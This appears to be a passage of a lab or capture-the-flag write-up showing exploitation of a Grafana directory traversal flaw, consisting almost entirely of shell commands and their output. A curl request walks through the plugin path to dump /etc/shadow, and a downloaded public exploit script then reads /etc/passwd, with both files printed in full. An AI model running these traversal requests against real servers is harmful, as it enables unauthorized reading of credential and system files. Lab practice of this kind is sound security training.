 ```bash
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
syslog:x:105:106::/home/syslog:/usr/sbin/nologin
ossec:x:106:108::/var/ossec:/sbin/nologin
grafana:x:107:109::/usr/share/grafana:/bin/false
```

```bash
:~# curl --path-as-is http://10.10.21.185:3000/public/plugins/alertlist/../../../../../../../../../../etc/shadow
root:*:19067:0:99999:7:::
daemon:*:19067:0:99999:7:::
bin:*:19067:0:99999:7:::
sys:*:19067:0:99999:7:::
sync:*:19067:0:99999:7:::
games:*:19067:0:99999:7:::
man:*:19067:0:99999:7:::
lp:*:19067:0:99999:7:::
mail:*:19067:0:99999:7:::
news:*:19067:0:99999:7:::
uucp:*:19067:0:99999:7:::
proxy:*:19067:0:99999:7:::
www-data:*:19067:0:99999:7:::
backup:*:19067:0:99999:7:::
list:*:19067:0:99999:7:::
irc:*:19067:0:99999:7:::
gnats:*:19067:0:99999:7:::
nobody:*:19067:0:99999:7:::
_apt:*:19067:0:99999:7:::
systemd-timesync:*:19085:0:99999:7:::
systemd-network:*:19085:0:99999:7:::
systemd-resolve:*:19085:0:99999:7:::
messagebus:*:19085:0:99999:7:::
syslog:*:19085:0:99999:7:::
ossec:*:19088:0:99999:7:::
grafana:*:19088:0:99999:7:::
```

```bash
:~# wget https://raw.githubusercontent.com/Jroo1053/GrafanaDirInclusion/master/src/exploit.py
...
:~# python3 exploit.py -u 10.10.21.185 -p 3000 -f /etc/passwd
Conneting To Server 
Sending Request to http://10.10.21.185:3000/public/plugins/alertlist/../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```